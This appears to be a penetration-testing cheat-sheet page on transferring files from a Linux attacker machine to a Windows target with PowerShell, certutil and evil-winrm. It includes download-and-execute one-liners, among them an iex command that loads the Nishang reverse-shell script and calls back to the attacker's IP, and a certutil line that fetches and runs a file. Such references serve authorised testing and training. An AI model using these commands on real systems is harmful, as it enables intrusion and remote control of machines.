 ```yaml
---
title: "File Transfer (Linux to Windows)"
date: 2025-7-24
tags: ["Curl", "Http File Transfer", "File Transfer", "Windows", "Evil-Winrm", "IEX", "IWR", "certutil"]
---
```


{{< tab set1 tab1 >}}powershell{{< /tab >}}
{{< tab set1 tab2 >}}cmd{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local HTTP Server

```console
python3 -m http.server <LOCAL_PORT>
```

```console {class=sample-code}
$ python3 -m http.server 8443
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
```

<br>

```console
# Invoke-WebRequest
iwr http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> -o C:\ProgramData\<FILE>
```

```console
# Wget
powershell -ep bypass wget <LOCAL_IP>:<LOCAL_PORT>/<FILE> -Outfile C:\ProgramData\<FILE>
```

```console
# Curl
powershell -ep bypass curl <LOCAL_IP>:<LOCAL_PORT>/<FILE> -Outfile C:\ProgramData\<FILE>
```

<small>*Note: curl and wget are alias to Invoke-WebRequest*</small>

```console
# Load into memory and run
```

```console
# Invoke-Expression
iex (New-Object Net.WebClient).DownloadString('http://<LOCAL_IP>:<LOCAL_PORT>/<FILE>');Invoke-PowerShellTcp -Reverse -IPAddress <LOCAL_IP> -Port <LOCAL_PORT>
```

```console
# Short version
iex (iwr http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> -UseBasicParsing)
```

<small>*Ref: [rev.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Start a Local HTTP Server

```console
python3 -m http.server <LOCAL_PORT>
```

<br>

```console
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE>
```

```console
# Upload and run
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE> && C:\ProgramData\<FILE>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Evil-winrm built-in function
upload '<LOCAL_FILE_PATH>' "C:\ProgramData\<FILE>"
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> upload /home/kali/PowerView.ps1 C:\ProgramData\PowerView.ps1
                                        
Info: Uploading /home/kali/PowerView.ps1 to C:\ProgramData\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
```

{{< /tabcontent >}}
